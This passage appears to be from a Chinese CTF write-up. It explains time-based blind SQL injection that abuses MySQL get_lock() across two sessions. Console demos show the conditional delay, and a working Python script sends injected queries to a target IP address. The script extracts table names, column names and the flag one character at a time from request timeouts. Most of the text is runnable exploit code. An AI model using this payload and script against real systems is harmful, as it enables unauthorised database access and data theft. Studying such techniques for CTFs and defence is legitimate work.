 ```
mysql&gt; select * from content where id = 1 and get_lock('skysec.top',1);
+----+-------------------------------------+
| id | content                             |
+----+-------------------------------------+
|  1 | I think you may need sql injection! |
+----+-------------------------------------+
1 row in set (0.00 sec)

```

对资源`skysec.top`加锁成功<br>
然后cmd2执行

```
mysql&gt; select * from content where id =1 and 1 and get_lock('skysec.top',5);
Empty set (5.00 sec)

mysql&gt; select * from content where id =1 and 0 and get_lock('skysec.top',5);
Empty set (0.00 sec)

```

从而达到时间盲注的作用<br>
脚本如下

```
# -*- coding: utf-8 -*-
import requests
import time
url1 = "http://52.80.179.198:8080/article.php?id=1' and get_lock('skysec.top',1)%23"
r = requests.get(url=url1)
time.sleep(90)
# 加锁后变换身份
url2 = "http://52.80.179.198:8080/article.php?id=1' and %s and get_lock('skysec.top',5)%%23"
data = ""
for i in range(1,1000):
    print i
    for j in range(33,127):
        #payload = "(ascii(substr((database()),%s,1))=%s)"%(i,j) #post
        payload = "(ascii(substr((select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()),%s,1))=%s)" % (i, j) #article,flags
        #payload = "(ascii(substr((select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='flags'),%s,1))=%s)" % (i, j) #flag
        #payload = "(ascii(substr((select flag from flags limit 1),%s,1))=%s)" % (i, j)
        payload_url = url2%(payload)
        try:
            s = requests.get(url=payload_url,timeout=4.5)
        except:
            data +=chr(j)
            print data
            break
```

